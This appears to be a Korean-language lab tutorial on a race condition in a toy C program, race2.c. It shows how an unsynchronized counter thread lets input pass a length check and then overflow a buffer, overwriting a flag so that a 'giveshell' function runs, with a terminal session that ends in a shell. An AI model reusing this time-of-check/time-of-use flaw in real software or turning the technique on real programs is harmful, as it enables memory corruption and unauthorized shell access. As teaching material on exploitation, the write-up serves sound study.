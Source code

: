 ```
        case 1:
            pthread_create( &p_thread, NULL, t_function, (void * ) NULL);
            break;
        case 2:
            printf("len: ");
            scanf("%d", &len);
            if(len > sizeof(buf)) {
                exit(0);
            }
            sleep(4);
            printf("Data: ");
            read(0, buf, len);
            printf("Len: %d\n", len);
            printf("buf: %s\n", buf);
            break;
        case 3:
            if (gogo == 0x41414141) {
                giveshell();
            }
        }
    }
    return 0;
}

```

스레드간 공유 자원을 적절히 동기화하지 않았을 때 레이스 컨디션이 발생할 수 있다.

race2.c는 세 개의 메뉴가 존재한다.

1번 메뉴는 t_function 함수를 스레드로 실행한다. t_function 함수는 len 전역 변수를 i가 10000000 값에 도달할 때 까지 1씩 증가 시킨다. 2번 메뉴는 len 전역 변수에 입력을 받고 buf 배열의 크기보다 크다면 프로그램을 종료하여 스택 버퍼 오버플로우가 발생하지 않도록 하는 조건이 존재한다. 그리고 8초 후 buf 에 입력을 받는다. 3번 메뉴는 gogo 변수가 0x41414141이라면 giveshell 함수를 호출한다.

len 변수에 뮤텍스가 걸려있지 않기 때문에 스레드를 생성해 t_function 함수를 실행하면 여러 스레드가 len 변수를 동시에 참조할 수 있게 된다.

메뉴 2번에서 len 변수는 4보다 클 수 없다. 4를 입력하고 sleep이 호출되어 대기 중일 때 다른 스레드에서 t_function 함수가 실행되고 있다면 len 값은 증가하게 된다. 그러므로 read 함수가 호출될 때의 len 값은 버퍼의 크기보다 큰 값이 된다. 따라서 버퍼 오버플로우가 발생해 buf 뒤에 있는 gogo 변수를 원하는 값으로 덮을 수 있다.






2번 메뉴에서 4를 입력하고 4 바이트 이후에 4개의 A를 입력하면 gogo 변수를 0x41414141로 조작할 수 있다.

이후에 3번 메뉴를 호출하면 셸을 획득할 수 있다.

```
$ ./race2
1. thread create
2. read buffer
> 1
1. thread create
2. read buffer
> 2
len: 4
Data: BBBBAAAA
Len: 11
buf: BBBBAAAA
1. thread create
2. read buffer
> 3
$ id
uid=1001(theori) gid=1001(theori) groups=1001(theori)
```
